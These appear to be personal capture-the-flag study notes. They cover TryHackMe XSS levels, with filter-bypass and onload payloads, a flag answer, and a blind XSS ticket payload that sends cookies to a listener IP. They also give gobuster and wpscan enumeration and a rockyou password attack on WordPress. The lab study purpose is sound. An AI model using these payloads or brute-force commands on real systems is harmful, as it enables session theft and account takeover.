 ';alert('THM');//

LEVEL 5 : A filter is applied and remove keywords like "script"

<sscriptcript>alert('THM');</sscriptcript>

LEVEL 6 : You need to put script on image <img src="/images/cat.jpg">

/images/cat.jpg" onload="alert('THM');

Answer : THM{XSS_MASTER}

BLIND XSS ( TICKET):

Launch a listener on the KALI machine :

nc -lnvp 9001

Then create a new ticket with the payload :

</textarea><script>fetch('http://10.10.127.52:9001?cookie=' + btoa(document.cookie) );</script>

Web Enumeration

Friday, July 29, 2022

8:48 PM

Gobuster

gobuster dir -u   -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   -x html,css,js,txt,conf -t64

-u: url

-w: wordlist

-t: threads

-x: extentions

Enumerating for Installed Themes

wpscan --url  --enumerate t

Enumerating for Installed Plugins

wpscan --url  --enumerate p

Enumerating for Users

wpscan --url  --enumerate u

The "Vulnerable" Flag

wpscan --url  --enumerate vp

Performing a Password Attack

wpscan --url   --passwords /usr/share/wordlists/rockyou.txt --usernames Phreakazoid

Adjusting WPScan's Aggressiveness (WAF)

--plugins-detection aggressive
